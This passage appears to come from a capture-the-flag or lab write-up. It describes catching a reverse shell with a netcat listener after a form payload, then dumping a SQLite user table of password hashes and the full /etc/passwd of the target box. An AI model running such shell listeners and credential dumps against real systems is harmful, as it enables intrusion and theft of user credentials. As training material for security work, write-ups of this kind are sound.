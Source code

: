 After running the payload in the form, a shell should open in the terminal where you were listening thorugh
`nc -lvnp 9001`. Once inside I moved to the `/instance` folder and dumped the content of the user table in the users.db file.

`sqlite3 users.db 'SELECT id,username,password_hash FROM user;'`

```
<rs.db 'SELECT id,username,password_hash FROM user;'
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
3|test|098f6bcd4621d373cade4e832627b4f6
```

I also dumped the content of `/etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
marco:x:1000:1000:marco:/home/marco:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001:,,,:/home/app:/bin/bash
mysql:x:114:118:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:997:997::/var/log/laurel:/bin/false
```

